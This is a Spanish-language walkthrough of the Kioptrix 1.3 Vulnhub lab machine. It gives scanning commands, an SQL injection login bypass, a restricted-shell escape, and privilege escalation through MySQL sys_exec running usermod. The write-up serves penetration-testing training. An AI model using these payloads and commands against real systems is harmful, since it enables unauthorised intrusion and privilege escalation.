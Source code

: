<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.3"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface eth0 -l
```
![1](https://user-images.githubusercontent.com/75953873/178128766-c1eb1f99-56e6-4449-a3f2-bf9345a59492.png)

IP host: `192.168.25.138`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.138
```
![2](https://user-images.githubusercontent.com/75953873/178128792-82993633-dc3c-4167-ab2c-4e0c05570d37.png)

Puertos abiertos: [22,80,139,445]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,139,445 -A 192.168.25.138
```
![3](https://user-images.githubusercontent.com/75953873/178128892-5d15426d-7724-4b96-ac14-8fa749662bc6.png)

![3 2](https://user-images.githubusercontent.com/75953873/178128937-364e11ba-8b5a-475b-a4c3-f5713ebe4d66.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

URL: `http://192.168.25.138`

![4](https://user-images.githubusercontent.com/75953873/178128981-b955ab0e-8efa-4d7b-a4a2-9ab170f6c50c.png)

La enumeración de directorios y archivos con Dirb encuentra un directorio llamado `john`, pero esté no revela nada relevante.
```
dirb http://192.168.25.138
```
![5](https://user-images.githubusercontent.com/75953873/178129062-4b519854-bfa5-469c-82a6-346010347a17.png)

![6](https://user-images.githubusercontent.com/75953873/178129075-842d66d2-e997-45c6-8cce-84d712f3c0db.png)

- *Paso 4:* Inyección SQL manual.

En el panel de login se debe ingresar el usuario `john` y la contraseña `' or 1=1-- -`.

![7](https://user-images.githubusercontent.com/75953873/178129163-cf68f241-8cbb-4d11-ac2a-50263173b630.png)

- *Paso 5:* Conectarse al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss john@192.168.25.138 -l john
```

Usuario: `john`

Contraseña: `MyNameIsJohn`

![8](https://user-images.githubusercontent.com/75953873/178129218-e0862b3b-4d30-44b2-8352-cc0e39f5d10c.png)

La shell se ejecuta dentro de un intérprete de python. Por lo  tanto, se debe salir de ella e ingresar al directorio raíz del servidor `/var/www`:
```
echo os.system('/bin/bash')
cd /www/var
cat checklogin.php
```
![9](https://user-images.githubusercontent.com/75953873/178129470-0903b88c-271e-4874-90a4-5fbcef300f1a.png)

- *Paso 6:* Iniciar sesión en el servidor MySQL.

Usuario: `root`

Contraseña: **sin contraseña**
```
mysql -u root -p
```
![10](https://user-images.githubusercontent.com/75953873/178129574-e42549f2-88dd-4a2b-8824-7bdce7f93d08.png)

El comando `usermod` otorgará a `john` al grupo de administradores (root).
```
select sys_exec('usermod -a -G admin john');
```
![11](https://user-images.githubusercontent.com/75953873/178129692-b62b22bc-5e6f-4611-8276-a9b38b75d4c7.png)

Por último, ejecutar `sudo su` para obtener una shell con privilegios e ingresar al directorio `/root`. La contraseña del root es la misma del servidor SSH.

![12](https://user-images.githubusercontent.com/75953873/178129723-9535e1cd-4441-4040-ae77-0711a3d604c0.png)
